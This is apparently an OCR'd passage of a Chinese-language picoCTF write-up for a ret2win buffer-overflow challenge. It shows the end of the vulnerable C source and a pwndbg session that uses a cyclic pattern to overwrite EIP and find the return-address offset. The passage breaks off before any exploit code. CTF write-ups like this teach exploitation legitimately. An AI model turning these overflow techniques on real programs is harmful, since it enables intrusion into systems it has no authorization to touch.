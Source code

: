 ```c
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

看起來是個 ret2win 的題目，那就直接開始吧。先用 gdb 找一下 offset。

```bash
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
pwndbg> r
Starting program: /home/kali/picoCTF/vuln.1
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────────────────────────
*EAX  0x41
*EBX  0x6161616a ('jaaa')
 ECX  0x0
 EDX  0x0
*EDI  0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
*ESI  0x8049350 (__libc_csu_init) ◂— endbr32
*EBP  0x6161616b ('kaaa')
*ESP  0xffffcfb0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
*EIP  0x6161616c ('laaa')
───────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────────────────────
Invalid address 0x6161616c










────────────────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────────────────
00:0000│ esp 0xffffcfb0 ◂— 'maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
01:0004│     0xffffcfb4 ◂— 'naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
02:0008│     0xffffcfb8 ◂— 'oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
03:000c│     0xffffcfbc ◂— 'paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab'
```